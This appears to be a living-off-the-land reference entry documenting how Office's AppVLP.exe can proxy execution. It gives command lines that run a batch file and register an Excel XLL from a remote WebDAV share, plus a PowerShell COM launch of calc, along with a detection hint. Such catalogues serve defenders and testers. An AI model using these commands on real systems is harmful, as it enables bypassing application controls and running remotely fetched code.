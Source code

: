 ## Appvlp.exe

* Functions: Execute

```
AppVLP.exe \\webdav\calc.bat   

AppVLP.exe powershell.exe -c "$e=New-Object -ComObject shell.application;$e.ShellExecute('calc.exe', '', '', 'open', 1)"    

AppVLP.exe powershell.exe -c "$e=New-Object -ComObject excel.application;$e.RegisterXLL('\\webdav\xll_poc.xll')" 
```

Acknowledgements:
* fab - @0rbz_    
* Will - @moo_hax

Code sample:
*

Resources:
* https://github.com/MoooKitty/Code-Execution
* https://twitter.com/moo_hax/status/892388990686347264

Full path:
```
C:\Program Files\Microsoft Office\root\client\appvlp.exe       
C:\Program Files (x86)\Microsoft Office\root\client\appvlp.exe       
```

Notes:
Requires Office.

Detection:
Appvlp.exe spawning other process


 
